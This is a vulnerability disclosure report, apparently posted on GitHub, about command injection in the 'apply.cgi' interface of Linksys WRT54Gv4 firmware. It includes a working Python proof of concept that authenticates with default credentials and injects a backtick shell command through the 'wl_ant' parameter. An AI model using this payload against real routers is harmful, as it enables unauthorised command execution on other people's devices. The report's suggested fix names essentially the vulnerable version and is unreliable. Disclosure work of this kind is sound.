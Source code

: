 # CVE Report - Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have an OS command injection vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **wl_ant**  passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://172.17.0.4",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "StartEPI": "1",
    "wl_ant": "`touch 1.txt`",
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the wl_ant value. It enters system execution, resulting in a command execution vulnerability.

![image](https://github.com/user-attachments/assets/702617ff-8bec-4eb0-b580-4d4b2ebde5d8)

![image](https://github.com/user-attachments/assets/21ca4de6-052a-4d58-ab08-c2b984e23fd8)

## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

